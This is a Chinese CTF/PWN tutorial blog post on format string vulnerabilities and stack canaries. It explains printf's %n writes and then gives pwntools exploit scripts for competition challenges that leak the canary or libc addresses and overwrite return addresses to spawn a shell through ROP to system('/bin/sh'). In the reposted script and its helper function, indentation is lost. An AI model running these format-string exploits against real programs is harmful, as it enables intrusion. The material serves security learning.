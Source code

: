 ```yaml
---
title: PWN从入门到出入平安（一）——格式化字符与Canary
date: 2023-04-20 17:10:09
tags:
- CTF
- PWN
categories:
- CS
---
```


> 写的很乱，日后再改

### 原理

#### 格式化输出函数

``` C
int printf(const char *format, ...);
int fprintf(FILE *stream, const char *format, ...);
int sprintf(char *str, const char *format, ...);
int snprintf(char *str, size_t size, const char *format, ...);
```

#### 占位符语法

```C
%[parameter][flags][field width][.precision][length]type
```

###### parameter

n$：第几个参数

###### type

X：Hex

p：void*指针型值

n：把已经成功输出的字符个数写入对应整型指针参数所指变量

%n     一次性写入 4 个字节

%hn     一次性写入 2 个字节

%hhn    一次性写入 1 个字节

%lln 8

### 利用

第几个参数可以通过gdb的fmtarg功能查找

![image-20230522230246834](../img/PWN从入门到出入平安（一）——格式化字符与Canary.assets/image-20230522230246834.png)

> 懒狗是这样的，直接截

#### 泄露栈上数据

`%X$p` `%X$x` `%08x` 可泄露栈上数据，可用于泄露canary

也可先在栈上写上需要的数据，再利用进行任意内存写，如`%Yc%X$n` 

### 泄露libc地址

libcmain地址会在调用main时存入

#### 泄露栈上地址指向的数据

` %s` 显示地址指向的ascll，可用于got表泄露

#### 覆盖栈上任意地址

###### 实例

尝试将 `arg2` 的值更改为任意值 （ 比如 `0x00000020` ，十进制 32 ）在gdb中可以看到得到`arg2`的地址`0xffffd538`， 那么我们构造格式字符串`\x38\xd5\xff\xff%08x%08x%012d%13$n` ， 且中 `\x38\xd5\xff\xff` 表示 `arg2` 的地址，占 4 字节，`％08x％08X` 表示两个 8 字符宽的十六进制数 ， 占 16 字节 ，`％012d` 占 12 字节 ， 三个部分加起来就占了4 + 16 + 12 = 32 字节 ， 即把 arg2 赋值为 `0x00000020`。 格式字符串最后一部分`％13$n`也是最重要的一部分，和上面的内容一样 ， 表示格式字符串的第 13 个参数 ， 即写入 `0xffffd538` 的地方（ `0xffffd564 `）`printf()` 就是通过这个地址找到被覆盖的内容的 

`printf` 首先解析 `％13$` 找到获得地址`0xffffd564` 的值`0xffffd538`， 然后跳转到地址 `0xffffd538`， 将它的值 `0X88888888` 覆盖为 `20` ， 就得到`arg2 = 0x00000020 `

### Canary

| High address |                |
| -----------: | :------------: |
|              |      args      |
|              | return address |
|          rbp |    old ebp     |
|      rbp - 8 |  canary value  |
|              | local variable |
|  Low address |                |



### 水水实例

某某杯payload

```python
from pwn import*
context.log_level='debug'
#p=process("./pwn1")
p=remote("172.51.228.233",9999)
#gdb.attach(p)


p.recvuntil('thing\n')
p.sendline('1')
p.recvuntil('tricks\n0x')
base=int(p.recvn(12),16)
backdoor=base-0x94
binsh=base+0x202068-0xa94
gadgets=base+0xc73-0xa94
gadgets2=base+0x821-0xa94
sys=base+0x870-0xa94


p.sendline('2')
p.recvuntil('hello\n')
p.sendline('%33$p')
p.recvuntil('0x')
canary=int(p.recvn(16),16)

payload=b'A'*25*8+p64(canary)+b"A"*8+p64(gadgets)+p64(binsh)+p64(gadgets2)+p64(sys)
p.sendline(payload)

p.interactive()

```

## fmtstr_payload

fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')
第一个参数表示格式化字符串的偏移；
第二个参数表示需要利用%n写入的数据，采用字典形式，我们要将printf的GOT数据改为system函数地址，就写成{printfGOT: systemAddress}；本题是将0804a048处改为0x2223322
第三个参数表示已经输出的字符个数，这里没有，为0，采用默认值即可；
第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写。
fmtstr_payload函数返回的就是payload



实际上我们常用的形式是fmtstr_payload(offset,{address1:value1})

## 进阶操作

读入函数不保存在栈上，无法直接修改地址的情况

通过利用栈上已有的地址，向已有的地址写入想修改的地址，然后再将修改后的地址作为参数

例：dasctf2023bin专项，fooooood（wp转载）

```python
from pwn import *
context.terminal=['tmux','splitw','-h']
context.arch='amd64'
# p=process('./pwn')
p=remote('localhost',9999)
libc=ELF('./libc.so.6')
# 1->11 2->37
# 1->25 2->39
# 覆盖变量i为40
p.sendlineafter('name:',b'aaa');
payload=b'%11$p'
p.sendlineafter('food: ',payload)
p.recvuntil('like ')
rsp=int(p.recvuntil('!?')[:-2],16)-248
i=rsp+4
i_off=i&0xffff
payload=b'%'+str(i_off).encode()+b'c%11$hn'
p.sendlineafter('food: ',payload)
payload=b'%'+str(40).encode()+b'c%37$hhn'
sleep(1)
p.sendlineafter('food: ',payload)
#泄露libc_base
payload=b'%9$p'
p.sendlineafter('food: ',payload)
p.recvuntil('like ')
libc.address=int(p.recvuntil('!?')[:-2],16)-240-libc.sym.__libc_start_main#简单的格式化字符串利用函数，将dest地址的后8字节循环更改成ptr对应的字节，off1与off2为上述
（1）与（2）两个栈地址在格式化字符串中的偏移
def overlap(dest,ptr,off1,off2):
d=dest&0xff
for i in range(8):
if not ptr:
break
payload=b'%'+str(d).encode()+b'c%'+str(off1).encode()+b'$hhn'
p.sendlineafter('food: ',payload)
f=ptr&0xff
payload=b'%'+str(f).encode()+b'c%'+str(off2).encode()+b'$hhn'
p.sendlineafter('food: ',payload)
d+=1
ptr>>=8
ret=rsp+0x18
ptr=libc.address+0x21112
print(hex(libc.sym.system))
#通过将第25个参数传入格式化字符串，将第39个参数的值改为返回地址
payload=b'%'+str(ret&0xffff).encode()+b'c%'+str(25).encode()+b'$hn'
p.sendlineafter('food: ',payload)
#覆盖返回地址为ptr（pop_rdi; ret）
overlap(ret,ptr,25,39)
#覆盖返回地址+8的位置为binsh字符串地址
overlap(ret+8,libc.search(b'/bin/sh').__next__(),25,39)
#覆盖返回地址+16的位置为system函数的地址
overlap(ret+16,libc.sym.system,25,39)
#至此，退出循环执行ROP后即可获取系统操作权限
p.sendlineafter('food: ',payload)
p.interactive()
```

```python
#简单的格式化字符串利用函数，将dest地址的后8字节循环更改成ptr对应的字节，off1与off2为上述
（1）与（2）两个栈地址在格式化字符串中的偏移
def overlap(dest,ptr,off1,off2):
d=dest&0xff
for i in range(8):
if not ptr:
break
payload=b'%'+str(d).encode()+b'c%'+str(off1).encode()+b'$hhn'
p.sendlineafter('food: ',payload)
f=ptr&0xff
payload=b'%'+str(f).encode()+b'c%'+str(off2).encode()+b'$hhn'
p.sendlineafter('food: ',payload)
d+=1
ptr>>=8
```

